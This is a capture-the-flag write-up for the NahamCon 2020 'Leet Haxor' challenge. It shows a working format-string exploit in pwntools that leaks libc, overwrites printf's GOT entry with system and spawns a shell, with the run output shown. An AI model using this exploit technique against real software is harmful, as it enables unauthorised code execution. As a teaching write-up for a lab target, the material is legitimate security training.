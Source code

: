 # NahamCon CTF 2020

## Leet Haxor

> 200
>
> 4r3 y0u 4s l33t 4s y0u s4y y0u 4r3??? 
>
> Connect here:</br>
> `nc jh2i.com 50022`</br>
>
> [`leet_haxor`](leet_haxor)

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Format string exploit challenge with some constraints, infinite free rides, and some guessing.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE/Partial RELRO; easy ROP, easy GOT.

    
### Decompile with Ghidra

```c
  puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
  __isoc99_scanf(&DAT_00400c54,&local_7e);
  while ((local_7e == '0' || (local_7e == '1'))) {
    getchar();
    puts("Insert text (Max. 100 chrs):");
    fgets(local_78,100,stdin);
    if (local_7e == '0') {
      l33tify(local_78);
    }
    else {
      unl33tify(local_78);
    }
    puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
    __isoc99_scanf(&DAT_00400c54,&local_7e);
  }
```

`main` loops, prompting `Mode [0]:l33tify | [1]:unl33tify | [?]:exit`, then after selecting `0` or `1`, prompts for up to 100 characters, then calls `l33tify` or `unl33tify` based on whether `0` or `1` was selected.  Nothing to see here.

![](l33tify.png)

The `printf` at line 49 is the _first_ venerability.  However the code above will molest any format-string exploit if there's a matching character.

![](unl33tify.png)

The `printf` at line 40 is the _second_ venerability.  And like `l33tify` above, there is code that will mess with your exploit string.

Fortunately, it's really not that bad.

Using `%p` to leak libc will not be impacted by `l33tify`.  Like `p`, other format-string attack characters such as `h`, `n`, and `c` have also been spared.

> Normally, I'd use the libc leaks to find the version of libc the remote server is using, but instead I opted to guess.  Using strings on the challenge binary, `GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0` was betrayed.  I took a guess and was right.

Setting a breakpoint just before `printf` in `l33tify` and looking at the stack we find a libc leak, way down at parameter 33:

```
0x00007fffffffe470│+0x0000: 0x00007fffffffe620  →  0x0000000000000001 ← $rsp
0x00007fffffffe478│+0x0008: 0x00007fffffffe4d0  →  0x0000000a34343434 ("4444\n"?)
0x00007fffffffe480│+0x0010: 0x0000000000000000
0x00007fffffffe488│+0x0018: 0x00000006f7a62bcd
0x00007fffffffe490│+0x0020: 0x0000000000000000
0x00007fffffffe498│+0x0028: 0x0000000000000000
0x00007fffffffe4a0│+0x0030: 0x00007fffffffe540  →  0x0000000000400a90  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe4a8│+0x0038: 0x0000000000400a2a  →  <main+149> jmp 0x400a38 <main+163>
0x00007fffffffe4b0│+0x0040: 0x00007fffffffe628  →  0x00007fffffffe824  →  "/pwd/datajerk
0x00007fffffffe4b8│+0x0048: 0x00000001f7ffe710
0x00007fffffffe4c0│+0x0050: 0x0000000000000000
0x00007fffffffe4c8│+0x0058: 0x000a21713a300000
0x00007fffffffe4d0│+0x0060: 0x0000000a34343434 ("4444\n"? ← $rdx, $rsi, $rdi
0x00007fffffffe4d8│+0x0068: 0x00000000756e6547 ("Genu"?)
0x00007fffffffe4e0│+0x0070: 0x0000000000000009
0x00007fffffffe4e8│+0x0078: 0x00007ffff7dd7660  →  <dl_main+0> push rbp
0x00007fffffffe4f0│+0x0080: 0x00007fffffffe558  →  0x00007fffffffe628  →  0x00007fffffffe824  
0x00007fffffffe4f8│+0x0088: 0x0000000000f0b5ff
0x00007fffffffe500│+0x0090: 0x0000000000000001
0x00007fffffffe508│+0x0098: 0x0000000000400add  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe510│+0x00a0: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
0x00007fffffffe518│+0x00a8: 0x0000000000000000
0x00007fffffffe520│+0x00b0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe528│+0x00b8: 0x0000000000400640  →  <_start+0> xor ebp, ebp
0x00007fffffffe530│+0x00c0: 0x00007fffffffe620  →  0x0000000000000001
0x00007fffffffe538│+0x00c8: 0x7e99182cebfbc400
0x00007fffffffe540│+0x00d0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

> The 6th parameter starts at $rsp, then count down (parameters 1-5 are in registers).  Or just test until you get a match.  You do have infinite retries.

We also need to know what parameter our format string is located at, again starting from the top and counting down you'll notice `4444` at parameter 18.  That `4444` was actually entered as `AAAA`, but it got _l33tified_ (lamified).

And that is all the information we need.


## Exploit

### Attack Plan

1. First Pass: Leak libc address
2. Second Pass: GOT `printf` -> `system`
3. Final Pass: Get a shell, get the flag


### Setup

```python
#!/usr/bin/python3

from pwn import *

#p = process('./leet_haxor')
p = remote('jh2i.com', 50022)

binary = ELF('leet_haxor')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64')
offset = 18
```

_Guessing_ Ubuntu 18.04, I just used an 18.04 container with the native libc.

The `offset` of `18` was determined above in the _Analysis_ section.  This will be required by the pwntools `fmtstr_payload` function.



### First Pass: Leak libc address

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline('%33$p')
p.recvline()

__libc_start_main = int(p.recvline().strip(),16) - 231
print('__libc_start_main',hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
print('baselibc',hex(baselibc))
libc.address = baselibc
```

The 33rd parameter to `printf` will leak a libc address (`__libc_start_main+231`) from the stack:

```
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

After that, it's easy to compute the libc base address.


### Second Pass: GOT `printf` -> `system`

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')

payload = fmtstr_payload(offset,{binary.got['printf']:libc.symbols['system']})

badchars = b'AaBbEeGgIiOoSsTtZz\r\n'
if any(x in payload for x in badchars):
    print("badchar in payload! exiting!\n")
    sys.exit(1)

p.sendline(payload)
```

pwntools provides very nice format-string functions; calling `fmtstr_payload` with our `offset`, and the addresses to GOT `printf` and libc `system` is all we need, however there's the possibility, due to ASLR, that one of the address could have a "badchar"; to avoid failure, check first.

> I probably should have labeled `badchars` as `l33tchars` for readability.  The `\r\n` are for `fgets`.


### Final Pass: Get a shell, get the flag

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('1')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline("/bin/sh")
```

Now that `printf` is `system`, just send `/bin/sh`, however this time use `unl33tify` to avoid having the string mangled.


Output:

```
# ./exploit.py
[+] Opening connection to jh2i.com on port 50022: Done
[*] '/pwd/datajerk/nahamconctf2020/leet_haxor/leet_haxor'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
__libc_start_main 0x7f0c3bdddab0
baselibc 0x7f0c3bdbc000
[*] Switching to interactive mode

$ ls
bin  bin.c  flag.txt
$ cat flag.txt
flag{w0w_y0u_4r3_4_l33t_h@x0r}
```